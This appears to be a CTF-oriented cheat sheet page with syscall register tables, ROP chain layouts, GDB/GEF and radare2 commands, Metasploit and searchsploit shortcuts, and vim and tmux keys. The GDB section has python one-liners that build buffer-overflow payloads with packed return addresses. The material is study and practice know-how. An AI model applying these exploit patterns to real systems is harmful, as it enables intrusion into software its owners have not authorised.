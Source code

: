 ```yaml
---
layout: tips
title: Cheat Sheets
---
```

Syscalls in x32 and x64
==========================
{% highlight bash%}
x86_32
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %eax  | %ebx | %ecx | %edx | %esi | %edi | %ebp |
+---------+------+------+------+------+------+------+
offset_padding + system_addr + 4_bytes_padding + print_flag_cmd

x86_64
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %rax  | %rdi | %rsi | %rdx | %r10 | %r8  | %r9  |
+---------+------+------+------+------+------+------+
offset_padding + pop_rdi_gadget + print_flag_cmd + system_addr
{% endhighlight %}
[Back to the top](#header)

Gdb/Gef
=======
{% highlight bash%}
pattern create 200          :Create cyclic patterm
pattern offset              :Get the offset based on the value off RSP/ESP
info functions              :List fonctions
break * 0x00                :Break at 0x00

#python2 -c 'import struct;print "A"*40 + struct.pack("Q",0x400883)+struct.pack("Q",0x601060)+struct.pack("Q",0x4005e0)' > input
#python2 -c 'from pwn import *;print("A" * 40 + p64(0x0400883) + p64(0x00601060) + p64(0x00400810))' > input

r < input                   :Injecting payload to input
{% endhighlight %}
Additional ressources:
- [gef.readthedocs.io][link1]
- [hugsy][link2]
[Back to the top](#header)

Radar2
=======
{% highlight bash%}
aaaa                                        :Analyse the binary
afl                                         :List all fonctions
aflj                                        :List all fonctions in Json
aflj:{}                                     :List all fonctions in Json but with better formating
pdf @ function                              :Show the fonction
iz                                          :Show strings
axt 0x0000                                  :Show cross-reference of the address 0x0000
/a pop rdi, ret                             :Search for gadget pop rdi, ret
rabin2 -i <binary>                          :List fonctions in a binary
rabin2 -I <binary>                          :List protections and info about a binary
rabin2 -qs <binary> | grep -ve imp -e ' 0 ' :List fonctions in a binary in an easier format
rabin2 -z <binary>                          :Looking strings in a binary
{% endhighlight %}
[Back to the top](#header)
  
Metasploit shortcut
===================
Updates
{% highlight bash%}
searchsploit -u
apt  update ; apt install metasploit-framework
{% endhighlight %}
Searchsploit
{% highlight bash%}
searchsploit -m :copy exploit in pwn
searchsploit -e :examine exploit
searchsploit -p :print full path
{% endhighlight %}
Load exploit to msf
{% highlight bash%}
msf > loadpath /usr/share/metasploit-framework/modules/
or
mv exploit.rb ~/.msf4/modules/exploit/exploit.rb and msf > reload_all
sessions -l :list sessions
{% endhighlight %}

[Back to the top](#header)

VIM shortcut
=============
{% highlight bash%}
gg            :beginning of the document
G             :end of the document
dd            :delete line
yy            :copy line
p             :paste
gg dG         :delete all
g g " + y G   :yank all line 
: % y +       :yank all line (shorter)
{% endhighlight %}
[Back to the top](#header)

Tmux shortcut
=============
{% highlight bash%}
Ctrl + b c :Create window
Ctrl + b , :Rename current window
Ctrl + b % :Split pane vertically
Ctrl + b " :Split pane horizontally
Ctrl + b z :Toggle pane zoom
Ctrl + b ! :Convert pane into a window
Ctrl + b x :Close current pane
Ctrl + b [ :Enter copy mode
  Ctrl + s      :Enable you to search 
                 (press enter to validate and n for next item)
  Ctrl + space  : Start selecting
  Ctrl + w      :Copy selection
  Ctrl + b + ]  :Paste the selection 
  q : Quit copy mode
/ :Search forward
? :Search backward
n :Next keyword occurance
N :Previous keyword occurance
Spacebar   :Start selection
Esc        :Clear selection
Enter      :Copy selection
Ctrl + b ] : Paste contents of buffer_0
{% endhighlight %}
[Back to the top](#header)

[link1]:https://gef.readthedocs.io/en/master/commands/pattern/ 
[link2]:https://github.com/hugsy/gef
